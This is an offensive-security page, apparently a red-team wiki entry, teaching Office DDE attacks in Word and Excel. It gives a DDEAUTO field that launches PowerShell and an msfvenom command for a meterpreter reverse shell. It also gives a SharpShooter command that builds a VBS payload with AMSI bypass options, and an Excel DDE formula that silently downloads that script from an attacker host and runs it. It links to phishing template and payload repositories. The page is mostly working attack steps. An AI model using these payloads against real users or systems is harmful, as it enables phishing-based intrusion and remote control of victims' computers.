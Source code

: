 # ⭕ DDE Auto - Word/Excel

{% embed url="https://github.com/0xdeadbeefJERKY/Office-DDE-Payloads" %}

{% embed url="https://github.com/MartinSohn/Office-phish-templates" %}

## <mark style="color:red;">Intro</mark>

DDE is an old MS technology that is used to facilitate data transfer between applications. DDE sends messages between applications that share data and uses shared memory to exchange data between applications.  DDE can be embedded in several Office file formats

To leverage this attack vector:

Open a new MS document and insert a field

![](<../../.gitbook/assets/image (51) (1).png>)

It will add an "!Unexpected End of Formula" to the document, we right-click it and "Toggle field codes" :

![](<../../.gitbook/assets/image (33) (1) (1) (1) (1).png>)

We then replace the = \* MERGEFORMAT with the payload: 1 { DDEAUTO "C:\Programs\Microsoft\Office\MSWord.exe\\..\\..\\..\windows\system32\WindowsPowershell\v1.0\powershell.exe start calc # " "required"}​ Copied! If we save the document, reopen our document and accept the 2 prompts, calculator will popup.



This attack has been tested on the latest Windows10 LTSC edition with Microsoft Office 365 with up-to-date Windows Defender.

#### Requirements:

* Enabled Dynamic Data Exchange Server Lookup
* Enabled Dynamic Data Exchange Server Launch

Warning presented to the user who opens the worksheet:

![](<../../.gitbook/assets/image (2) (1).png>)

## <mark style="color:red;">Exploitation</mark>

generate msfvenom shellcode:

```
msfvenom -a x86 -p windows/meterpreter/reverse_http LHOST=192.168.1.108 LPORT=443 EnableStageEncoding=True PrependMigrate=True -f raw -o raw3.txt
```

Create a malicious VBS script with SharpShooter with included raw3.txt shellcode file we generated earlier:

{% embed url="https://github.com/mdsecactivebreach/SharpShooter" %}

```
python2 SharpShooter.py --stageless --dotnetver 2 --payload vbs --output foo2 --rawscfile raw3.txt --amsi amsienable
```

And inject the command to Microsoft Excel function:

```vba
=cmd|'/c cmd.exe /c powershell.exe -nop -w hidden iwr -outf %tmp%\\msf.vbs http://192.168.1.108:8000/foo2.vbs & %tmp%\\msf.vbs'!'A1'
```

After the user skips the warning we get a meterpreter shell:

![](<../../.gitbook/assets/image (8) (1) (1).png>)

